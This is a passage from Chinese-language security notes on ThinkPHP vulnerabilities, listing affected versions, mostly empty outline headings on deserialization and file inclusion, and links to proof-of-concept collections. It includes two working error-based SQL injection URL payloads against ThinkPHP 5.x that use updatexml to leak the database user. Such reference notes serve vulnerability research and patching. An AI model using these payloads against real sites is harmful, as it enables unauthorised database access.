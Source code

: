 [https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8BSQL%E6%B3%A8%E5%85%A54.md](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5漏洞分析之SQL注入4.md)

### 五、Mysql类聚合函数相关方法

影响版本：5.0.0-5.0.21、5.1.3-5.1.25

payload：5.0.0-5.0.21 、5.1.3-5.1.10

> /index/index/index?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

payload：5.1.11-5.1.25

> /index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23



https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5漏洞分析之SQL注入6.md

https://github.com/Mochazz/ThinkPHP-Vuln

## 0x04 ThinkPHP与反序列化漏洞

https://github.com/Dido1960/thinkphp

https://github.com/Mochazz/ThinkPHP-Vuln

### 一、5.0反序列化

### 二、5.1反序列化

影响版本：5.1.37

### 三、5.2反序列化

### 四、6.0反序列化

## 0x03 ThinkPHP与文件包含漏洞

### 一、版本5.0.0<=5.0.18

## 0x05 基于ThinkPHP程序

- https://github.com/search?q=thinkphp+3.2.3&type=Repositories
- https://github.com/search?q=based+on+ThinkPHP&type=Repositories
- https://github.com/GreenCMS/GreenCMS

## 0x06 POC与EXP整理

## 0x99 参考链接

- https://xz.aliyun.com/t/3868

- https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection

  


